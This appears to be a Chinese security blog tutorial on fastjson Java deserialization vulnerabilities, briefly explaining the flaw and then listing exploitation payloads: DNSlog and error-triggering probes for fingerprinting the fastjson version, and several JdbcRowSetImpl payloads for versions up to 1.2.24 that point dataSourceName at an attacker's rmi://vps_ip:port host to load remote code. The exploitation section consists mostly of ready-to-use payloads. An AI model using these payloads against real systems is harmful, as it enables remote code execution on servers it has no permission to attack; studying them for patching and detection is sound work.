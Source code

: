 #  一文学会fastjson漏洞   
simple学安全  simple学安全   2024-12-04 02:55  
  
目录  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeUibpjMqOVNILc9A6Apcc9qJUONpX34sDfEKu5iapFqtlP6ib2HIRMljUPQ507EbxA4PbMPSmlnbSmwiag/640?wx_fmt=png&from=appmsg "")  
  
漏洞简介  
  
fastjson是一个高性能的json解析器和生成器，广泛用于Java项目中。fastjson允许开发者自定义反序列化行为，以便可以根据json中的不同字段自动创建不同类型的对象。  
  
在Java中，反序列化是将字节数据(通常是json格式)转化回对象的过程。然而，fastjson在执行反序列化时，没有对json数据字段做足够的安全检查，攻击者可以构造包含恶意类的json数据，控制反序列化过程中的类加载和方法调用，从而执行恶意代码。  
  
漏洞利用  
  
1、**判断fastjson版本**  
  
1）不同版本的fastjson适用的payload不同，可以根据可使用的payload来判断版本，例如 <1.2.43支持：  
```
{"@type":"java.net.URL","val":"http://dnslog"}
```  
  
<1.2.48支持：  
```
{"@type":"java.net.InetAddress","val":"http://dnslog"}
```  
  
2）有些通过报错信息返回fastjson版本，破坏json结构，导致报错：  
```
{"@type":"java.lang.AutoCloseable"
```  
  
2、**<=1.2.24 payload**  
```
{
  "@type":"com.sun.rowset.JdbcRowSetImpl",
  "dataSourceName":"rmi://vps_ip:port/TouchFile",
  "autoCommit":true
}
```  
```
{
  "a":{
    "@type":"com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName":"rmi://vps_ip:port/TouchFile",
    "autoCommit":true
  }
}
```  
```
{
  "@type":"com.alibaba.fastjson.JSONObject",
  {
    "@type":"com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName":"rmi://vps_ip:port/TouchFile",
    "autoCommit":true
  }
}
```  
  